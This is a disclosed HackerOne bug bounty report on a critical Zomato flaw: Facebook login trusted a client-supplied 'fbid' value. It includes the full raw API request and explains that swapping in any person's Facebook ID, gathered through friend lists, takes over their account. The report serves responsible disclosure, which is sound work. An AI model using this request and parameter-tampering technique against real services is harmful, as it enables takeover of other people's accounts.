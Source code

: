# Unauthorised Access to Anyone's User Account

## Report Details
- **Report ID**: 202921
- **URL**: https://hackerone.com/reports/202921
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-02-02T15:33:35.634Z
- **Disclosed**: 2017-03-28T22:13:53.396Z

## Reporter
- **Username**: bhavukjain1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
When we do Login with Facebook on the Zomato app, you're doing zero authentication of the user. I'm able to hack into the targeted user's accounts by just using the Facebook ID.

Affected API raw request:

POST /v2/auth.json?presentlat=28.66505699180115&useragent=model_iPod%20touch__os_9.3.5__v_7.0__t_iPod5,1&app_version=7.0&session_id=41&app_run_id=21&presentlon=77.32215271029096&lang=en&push_permission=1&isFacebook=true&channel_url=&uuid=█████████ HTTP/1.1
Host: 1api.zomato.com
Accept-Language: en-IN;q=1, nl-IN;q=0.9, it-IN;q=0.8, de-IN;q=0.7, fr-IN;q=0.6
Accept: */*
User-Agent: Zomato/6.6.9 (iPod touch; iOS 9.3.5; Scale/2.00)
X-Zomato-API-Key: █████████
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: keep-alive
app_version: 7.0
Cookie: PHPSESSID=██████████; fbcity=1; fbtrack=c9bce885893ad8387ae3dc855d6f5b97; zl=en
Content-Length: 984
Accept-Encoding: gzip

access_token=&client_id=zomato_ios_v2&fb_permission=%5B%22user_friends%22%2C%22email%22%2C%22contact_email%22%2C%22public_profile%22%5D&fb_token=████████&fbdata=%7B%0A%20%20%22link%22%20%3A%20%22https%3A%5C%2F%5C%2Fwww.facebook.com%5C%2Fapp_scoped_user_id%5C%2F█████%5C%2F%22%2C%0A%20%20%22id%22%20%3A%20%22██████████%22%2C%0A%20%20%22first_name%22%20%3A%20%22Bhavuk%22%2C%0A%20%20%22name%22%20%3A%20%22Bhavuk%20Jain%22%2C%0A%20%20%22gender%22%20%3A%20%22male%22%2C%0A%20%20%22last_name%22%20%3A%20%22Jain%22%2C%0A%20%20%22email%22%20%3A%20%22█████████%40yahoo.co.in%22%2C%0A%20%20%22locale%22%20%3A%20%22en_US%22%2C%0A%20%20%22timezone%22%20%3A%205.5%2C%0A%20%20%22updated_time%22%20%3A%20%222016-12-24T21%3A55%3A30%2B0000%22%2C%0A%20%20%22verified%22%20%3A%20true%0A%7D&fbid=█████

In the last parameter, "fbid", I just need to replace it with the targeted user's facebook id, and I've been given the access to that user account. 
For eg, just replace the "fbid" parameter with ███. You'll gain the access to this user's account.

Also, using my Facebook access token, I'm able to get the correct facebook ids of the people I'm friends on Facebook with and also the ids of second degree friends as well. So I'm able to hack into their Zomato accounts with ease.

## Attachments
No attachments
